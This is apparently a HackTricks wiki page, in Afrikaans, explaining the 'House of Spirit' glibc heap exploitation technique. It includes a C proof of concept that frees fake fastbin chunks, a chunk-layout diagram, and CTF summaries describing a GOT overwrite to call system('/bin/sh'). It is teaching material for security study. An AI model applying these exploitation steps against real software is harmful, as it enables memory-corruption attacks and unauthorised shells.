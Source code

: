 # House of Spirit

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Basiese Inligting

### Kode

<details>

<summary>House of Spirit</summary>
```c
#include <unistd.h>
#include <stdlib.h>
#include <string.h>
#include <stdio.h>

// Code altered to add som prints from: https://heap-exploitation.dhavalkapil.com/attacks/house_of_spirit

struct fast_chunk {
size_t prev_size;
size_t size;
struct fast_chunk *fd;
struct fast_chunk *bk;
char buf[0x20];               // chunk falls in fastbin size range
};

int main() {
struct fast_chunk fake_chunks[2];   // Two chunks in consecutive memory
void *ptr, *victim;

ptr = malloc(0x30);

printf("Original alloc address: %p\n", ptr);
printf("Main fake chunk:%p\n", &fake_chunks[0]);
printf("Second fake chunk for size: %p\n", &fake_chunks[1]);

// Passes size check of "free(): invalid size"
fake_chunks[0].size = sizeof(struct fast_chunk);

// Passes "free(): invalid next size (fast)"
fake_chunks[1].size = sizeof(struct fast_chunk);

// Attacker overwrites a pointer that is about to be 'freed'
// Point to .fd as it's the start of the content of the chunk
ptr = (void *)&fake_chunks[0].fd;

free(ptr);

victim = malloc(0x30);
printf("Victim: %p\n", victim);

return 0;
}
```
</details>

### Doel

* In staat wees om 'n adres in die tcache / fast bin by te voeg sodat dit later moontlik is om dit toe te ken.

### Vereistes

* Hierdie aanval vereis dat 'n aanvaller in staat is om 'n paar vals vinnige stukke te skep wat die grootte korrek aandui en dan in staat is om die eerste vals stuk vry te stel sodat dit in die bin kom.

### Aanval

* Skep vals stukke wat sekuriteitskontroles omseil: jy sal 2 vals stukke nodig hê wat basies in die korrekte posisies die korrekte groottes aandui.
* Op een of ander manier moet jy die eerste vals stuk vrystel sodat dit in die vinnige of tcache bin kom en dan dit toe te ken om daardie adres te oorskryf.

**Die kode van** [**guyinatuxedo**](https://guyinatuxedo.github.io/39-house\_of\_spirit/house\_spirit\_exp/index.html) **is wonderlik om die aanval te verstaan.** Alhoewel hierdie skema van die kode dit redelik goed opsom:
```c
/*
this will be the structure of our two fake chunks:
assuming that you compiled it for x64

+-------+---------------------+------+
| 0x00: | Chunk # 0 prev size | 0x00 |
+-------+---------------------+------+
| 0x08: | Chunk # 0 size      | 0x60 |
+-------+---------------------+------+
| 0x10: | Chunk # 0 content   | 0x00 |
+-------+---------------------+------+
| 0x60: | Chunk # 1 prev size | 0x00 |
+-------+---------------------+------+
| 0x68: | Chunk # 1 size      | 0x40 |
+-------+---------------------+------+
| 0x70: | Chunk # 1 content   | 0x00 |
+-------+---------------------+------+

for what we are doing the prev size values don't matter too much
the important thing is the size values of the heap headers for our fake chunks
*/
```
{% hint style="info" %}
Let daarop dat dit nodig is om die tweede stuk te skep om 'n paar sanity checks te omseil.
{% endhint %}

## Voorbeelde

* **CTF** [**https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html**](https://guyinatuxedo.github.io/39-house\_of\_spirit/hacklu14\_oreo/index.html)
* **Libc infoleak**: Deur 'n overflow is dit moontlik om 'n pointer te verander om na 'n GOT adres te wys om 'n libc adres via die lees aksie van die CTF te lek.
* **House of Spirit**: Deur 'n teen te misbruik wat die aantal "gewere" tel, is dit moontlik om 'n vals grootte van die eerste vals stuk te genereer, dan deur 'n "boodskap" te misbruik, is dit moontlik om die tweede grootte van 'n stuk te vervals en uiteindelik deur 'n overflow is dit moontlik om 'n pointer te verander wat vrygestel gaan word sodat ons eerste vals stuk vrygestel word. Dan kan ons dit toewys en binne-in dit gaan die adres wees waar "boodskap" gestoor word. Dan is dit moontlik om dit na die `scanf` invoer binne die GOT tabel te laat wys, sodat ons dit kan oorskryf met die adres na system.\
Volgende keer dat `scanf` aangeroep word, kan ons die invoer `"/bin/sh"` stuur en 'n shell kry.

* [**Gloater. HTB Cyber Apocalypse CTF 2024**](https://7rocky.github.io/en/ctf/other/htb-cyber-apocalypse/gloater/)
* **Glibc leak**: Ongeïnitialiseerde stapelbuffer.
* **House of Spirit**: Ons kan die eerste indeks van 'n globale array van heap pointers verander. Met 'n enkele byte verandering, gebruik ons `free` op 'n vals stuk binne 'n geldige stuk, sodat ons 'n oorvleueling van stukke situasie kry nadat ons weer toewys. Met dit werk 'n eenvoudige Tcache vergiftiging aanval om 'n arbitrêre skrywe primitief te verkry.

## Verwysings

* [https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit](https://heap-exploitation.dhavalkapil.com/attacks/house\_of\_spirit)

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
